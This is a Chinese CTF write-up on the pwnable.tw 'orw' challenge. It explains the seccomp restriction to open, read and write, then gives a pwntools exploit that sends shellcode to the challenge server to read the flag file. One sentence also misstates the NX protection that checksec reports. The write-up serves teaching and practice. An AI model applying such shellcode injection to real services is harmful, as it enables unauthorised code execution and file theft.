 ```yaml
---
title: 和媳妇一起学Pwn 之 orw(pwnable.tw)
date: 2019-09-01 00:00:00
categories:
- CTF/Pwn
tags: shellcode syscall seccomp
---
```


题目地址：[https://pwnable.tw/challenge/#2](https://pwnable.tw/challenge/#2)


> Only open read write syscall are allowed to use.

## 检查保护

```bash
➜  file orw 
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
➜  checksec orw
[*] '/Users/wangyuxuan/Desktop/pwnable/orw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

是一个32位的elf，动态链接，没有去符号表，除了栈不可执行没有开启其他保护，而且有读写可执行段。用IDA看一下主函数：


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

发现shellcode是一个函数指针，对应的地址在bss段中，写完shellcode就可以直接执行了，但是根据题目的提示，shellcode中如果使用系统调用只能用open，write，read三个系统调用，那这个是怎么限制的呢？

## seccomp沙箱

猜测跟orw_seccomp函数有关，点进去如下：

```c
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h]
  char *v2; // [esp+8h] [ebp-80h]
  char v3; // [esp+Ch] [ebp-7Ch]
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(&v3, &unk_8048640, 0x60u);
  v1 = 12;
  v2 = &v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```

看到prctl这个函数，应该全名是process control(进程控制)，猜测可能跟这个有关，参考链接：

- [Linux沙箱之seccomp](https://blog.betamao.me/2019/01/23/Linux%E6%B2%99%E7%AE%B1%E4%B9%8Bseccomp/)
- [seccomp学习笔记](https://veritas501.space/2018/05/05/seccomp%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

总之就是通过这种方法限制了程序可以使用的系统调用

## 利用

### 本地c代码尝试

因为对系统调用啥的还不是很熟悉，一开始的直觉是，为啥还有用read系统调用。感觉open打开后直接write到标准输出不就完了么。所以先尝试着在本地写一个c程序，只用open，write，read三个系统调用去读一个本地的文件（/flag）。系统调用参数是啥，需要用到什么头文件可以去man手册中查找：

```c
# include <stdio.h>
# include <unistd.h>
# include <fcntl.h>

int main(){
	int fd;
	char a[100];
	fd = open("/flag",0);
	read(fd,a,50);
	write(1,a,50);
	return 0;
}
```
写完就知道刚才那个疑问的答案了，通过open打开的是一个文件描述符，文件内容还在磁盘中。而write输出到标准输出需要从内存中输出，不能直接对两个文件描述符进行操作（标准输出和flag的文件描述符），所以要先把flag读到内存中，然后在从内存中输出。

### exp

这里利用栈上存放了flag位置的字符串，然后随便找了bss段后面作为存储flag的内存位置：

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF("./orw")
#io = process(myelf.path)
io  = remote("chall.pwnable.tw",10001)
shellcode = ""
shellcode += shellcraft.i386.pushstr('/home/orw/flag').rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_open',"esp", 0).rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_read',"eax", 0x0804A0D7,40).rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_write',1, 0x0804A0D7,40).rstrip()
#print shellcode
#print len(asm(shellcode))
io.recv()
io.send(asm(shellcode))
io.interactive()
```

## 疑问

在IDA中看到bss段明明是不可执行的：

```bash
.bss:0804A040 ; Segment type: Uninitialized
.bss:0804A040 ; Segment permissions: Read/Write
.bss:0804A040 ; Segment alignment '32byte' can not be represented in assembly
```

而如果通过gdb调试则发现：

```bash

gdb-peda$ vmmap
Start      End        Perm	Name
......
0x0804a000 0x0804b000 rwxp	/mnt/hgfs/桌面/pwnable/orw/orw
......

```

暂时还不知道为啥